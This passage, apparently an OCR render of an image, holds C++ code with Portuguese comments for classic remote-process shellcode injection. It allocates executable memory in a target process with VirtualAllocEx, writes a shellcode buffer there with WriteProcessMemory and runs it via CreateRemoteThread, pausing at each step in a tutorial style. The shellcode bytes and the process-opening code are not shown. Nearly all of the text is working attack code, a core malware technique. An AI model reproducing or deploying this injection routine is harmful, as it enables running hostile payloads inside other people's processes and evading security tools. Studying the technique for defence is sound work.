 ```cpp
            std::cin.get(); // Espera o usuário pressionar Enter
            return 1;
        }

        std::cout << "Presione Enter para alocar memoria para a shellcode." << std::endl;
        std::cin.get(); // Espera o usuário pressionar Enter

        // Aqui alocamos memoria suficiente para nosso shellcode na memoria do processo alvo
        LPVOID pShellcode = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        if (pShellcode == NULL)
        {
            std::cout << "Falha ao alocar memoria." << std::endl;
            std::cin.get(); // Espera o usuário pressionar Enter
            return 1;
        }

        // Mostra o endereço de onde foi alocada a memória
        std::cout << "Memoria alocada em: " << pShellcode << std::endl;

        std::cout << "Presione Enter para escrever a shellcode na memoria." << std::endl;
        std::cin.get(); // Espera o usuário pressionar Enter

        // Aqui escrevemos nossa shellcode na memoria alocada do processo alvo
        if (!WriteProcessMemory(hProcess, pShellcode, shellcode, sizeof(shellcode), NULL))
        {
            std::cout << "Falha ao escrever na memoria." << std::endl;
            std::cin.get(); // Espera o usuário pressionar Enter
            return 1;
        }

        // Mostra o endereço onde o shellcode foi escrito
        std::cout << "Shellcode escrito em: " << pShellcode << std::endl;

        std::cout << "Presione Enter para criar a thread remota." << std::endl;
        std::cin.get(); // Espera o usuário pressionar Enter

        // Aqui criamos uma thread remota para iniciar nossa shellcode na memoria do processo alvo
        HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pShellcode, NULL, 0, NULL);
        if (hThread == NULL)
        {
            std::cout << "Falha ao criar thread remota." << std::endl;
            std::cin.get(); // Espera o usuário pressionar Enter
            return 1;
        }

        std::cout << "Presione Enter para aguardar o termino da thread." << std::endl;
        std::cin.get(); // Espera o usuário pressionar Enter

        // Aqui estamos aguardando o término da thread que criamos para iniciar o shellcode
        WaitForSingleObject(hThread, INFINITE);

        std::cout << "Presione Enter para fechar o handle da thread e liberar a memoria." << std::endl;
        std::cin.get(); // Espera o usuário pressionar Enter

        // E aqui após ter terminado o thread que criamos vamos estyar fechando o handle do processo e limpando a memoria
        CloseHandle(hThread);
        VirtualFreeEx(hProcess, pShellcode, 0, MEM_RELEASE);
        CloseHandle(hProcess);

```
